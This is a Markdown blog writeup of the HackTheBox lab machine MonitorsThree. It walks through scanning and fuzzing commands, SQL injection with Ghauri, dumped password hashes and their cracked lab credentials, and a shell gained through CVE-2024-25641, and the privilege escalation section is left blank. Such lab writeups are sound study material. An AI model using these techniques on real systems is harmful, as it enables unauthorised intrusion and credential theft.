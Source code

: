 ```yaml
---
layout: post
title: "HackTheBox: MonitorsThree"
description: A writeup for Hackthebox Cicada
date:   2024-09-19 12:06:31 +0000
image:  '/images/post/monitorsthree.jpg'
tags:   [HackTheBox,htb]
---
```

## Setup
`mkdir -p ~/ctf/HackTheBox/monitorsthree/scans; cd ~/ctf/HackTheBox/monitorsthree`
IP Address: 10.10.11.30


`echo "10.10.11.30 monitorsthree.htb" | sudo tee -a /etc/hosts`
10.10.11.30 monitorsthree.htb
***
### Enumeration 
![1b72642bca17d8635c49f8d56e7de859.png]({{site.baseurl}}/images/post/1b72642bca17d8635c49f8d56e7de859.png)
`nmap -sC -sV -Pn -p- monitorsthree.htb -oN scans/nmap -vv`
`nmap -sC -sV -p- -T5 --min-rate 2500 -oN scans/nmap_2 monitorsthree.htb`
```
# nmap findings

```

`gobuster dir --no-error -e -x php,html,txt -u http://monitorsthree.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 --output scans/gobuster`


[Gobuster Cheatsheet](https://linuxcscom.wordpress.com/gobuster/)
```
# gobuster findings

```

`feroxbuster --url http://monitorsthree.htb -d 2 -x php,html,txt --output scans/feroxbuster`
```
# ferox buster findings

```

`wfuzz -c -u https://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --oF scans/wfuzz_subdomain`
```
#Wfuzz Subdomain Finder 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://monitorsthree.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000246:   302        0 L      0 W        0 Ch        "cacti"       
```

using `'`  in http://monitorsthree.htb/forgot_password.php we find sql error and use Ghauri for SQL injection: 

![135e5b6ec2acf567cee994423c6cd01f.png]({{site.baseurl}}/images/post/135e5b6ec2acf567cee994423c6cd01f.png)

Database: monitorsthree_db
Table: users
[4 entries]
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+
| id | username  | email                       | password                         | name              | position              | dob        | start_date | salary    |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            
| 2  | admin     | admin@monitorsthree.htb     | 31a181c8372e3afc59dab863430610e8 | Marcus Higgins    | Super User            | 1978-04-25 | 2021-01-12 | 320800.00 |                                            
| 7  | dthompson | mwatson@monitorsthree.htb   | c585d01f2eb3e6e1073e92023088a3dd | Michael Watson    | Website Administrator | 1985-02-15 | 2021-05-10 | 75000.00  |                                            
| 6  | janderson | janderson@monitorsthree.htb | 1e68b6eb86b45f6d92f8f292428f77ac | Jennifer Anderson | Network Engineer      | 1990-07-30 | 2021-06-20 | 68000.00  |                                            
| 5  | mwatson   | dthompson@monitorsthree.htb | 633b683cc128fe244b00f176c8a950f5 | David Thompson    | Database Manager      | 1982-11-23 | 2022-09-15 | 83000.00  |                                            
+----+-----------+-----------------------------+----------------------------------+-------------------+-----------------------+------------+------------+-----------+                                            

[22:50:02] [INFO] table 'monitorsthree_db.users' dumped to CSV file '/home/w3rew01f/.ghauri/monitorsthree.htb/dump/monitorsthree_db/users.csv'



Using hashcat hashid and rockyou list we crack the hash:
![96cbaa7dc84d9ec21c202cebfb397f2f.png]({{site.baseurl}}/images/post/96cbaa7dc84d9ec21c202cebfb397f2f.png)

`admin:greencacti2001`

Nothing useful in `http://monitorsthree.htb/admin` and `http://monitorsthree.htb/login`

The version of cacti is vulnerable to [CVE-2024-25641](https://www.rapid7.com/db/modules/exploit/multi/http/cacti_package_import_rce/)

![9f60245f96b99a6ee4f5393cf58f4847.png]({{site.baseurl}}/images/post/9f60245f96b99a6ee4f5393cf58f4847.png)

we get a shell but no access to marcus 

using linpeas we find a database 
![60662f54ca3a5036f1555b8e13eae8ff.png]({{site.baseurl}}/images/post/60662f54ca3a5036f1555b8e13eae8ff.png)
Active 3306 port here 
![23ee3a00966866b1073ba303489c6e0e.png]({{site.baseurl}}/images/post/23ee3a00966866b1073ba303489c6e0e.png)



+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name     | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |     0 | Administrator | marcus@monitorsthree.htb |                      |                 | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   436423766 |
|  3 | guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |     0 | Guest Account | guest@monitorsthree.htb  |                      |                 | on        | on        | on           |                |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |  3774379591 |
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus        | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+

Using hashcat we get the password for marcus
![4b6eb0c5fb608ca27e0d603cfe9ba554.png]({{site.baseurl}}/images/post/4b6eb0c5fb608ca27e0d603cfe9ba554.png)

`marcus:12345678910`
Succesfull Login 
![d13817ed04784ca5bedde6b5c6dbbbb7.png]({{site.baseurl}}/images/post/d13817ed04784ca5bedde6b5c6dbbbb7.png)

***
# user flag
Location: /home/marcus | Flag: 37b##################################

#### Privilege Escalation



***
# root flag
Location:  | Flag: 
```

```